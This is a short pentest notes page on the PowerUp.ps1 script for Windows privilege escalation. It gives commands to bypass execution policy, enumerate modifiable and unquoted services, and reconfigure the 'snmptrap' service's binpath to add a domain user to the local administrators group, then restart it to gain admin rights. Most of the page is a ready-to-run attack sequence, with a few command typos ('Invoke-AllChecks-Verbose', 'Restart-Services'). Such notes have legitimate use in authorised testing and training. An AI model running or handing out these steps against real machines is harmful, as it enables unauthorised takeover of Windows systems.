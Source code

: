 # PowerUP.ps1

PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations.

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc" %}



Import the library into PowerShell session.

```powershell
powershell -ep bypass
. .\PowerUP.ps1
Invoke-AllChecks-Verbose
```

Do all check of PowerUP:

```powershell
Invoke-AllChecks
```



## Modifiable Service PrivEsc

List services which can be configured:

```powershell
Get-ModifiableService -Verbose
```

If we found one of these, we can change the BINARY\_PATH\_NAME to execute a arbitrary command. For example a command to change the admin group members.

<figure><img src="../../../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Check if the service found is set to AUTO\_START&#x20;

```powershell
sc.exe qc snmptrap
```

<figure><img src="../../../../../../.gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>

Then, verifying that we can set the command to execute.

```powershell
sc.exe config snmptrap binpath="net localgroup administrators DOMAIN\employee /add"
```

Check if the modify was  sucessful

```powershell
sc.exe qc snmptrap
```

Now when we restart the service, the command will be execute and we will have the administrator privilege.

```powershell
Restart-Services snmptrap
```

{% hint style="info" %}
Make a Logoff from the machine to reset the privilege and to have the administrator privilege
{% endhint %}



Unquoted Service Path:

```powershell
Get-ServiceUnquoted -Verbose
```

